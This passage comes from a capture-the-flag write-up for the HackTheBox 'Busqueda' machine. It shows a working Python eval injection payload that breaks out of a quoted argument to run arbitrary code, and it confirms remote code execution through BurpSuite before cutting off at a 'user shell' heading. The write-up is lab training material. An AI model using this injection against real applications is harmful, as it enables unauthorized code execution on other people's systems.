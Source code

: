 ```
whatever'),print(24/6)#
```

This malicious query will close the opening single quote eand bracket, then use a comma to create a python tuple(eval doesn't allow using semicolon). Now, i can execute an arbitrary python commands, and end with the `#` symbol, to comment out the rest of the string so eval ignores it. 

When the parametrs get filled into the template, the line of code will look like this:

```python
url = eval(f"Engine.Google.search('whatever'),print(24/6)#', copy_url={copy}, open_web={open})")
```

I will execute this payload using BurpSuite and see that i get the expected result:

![RCE](/assets/screenshots/htb-busqueda/burp_rce.png)

## Getting a user shell
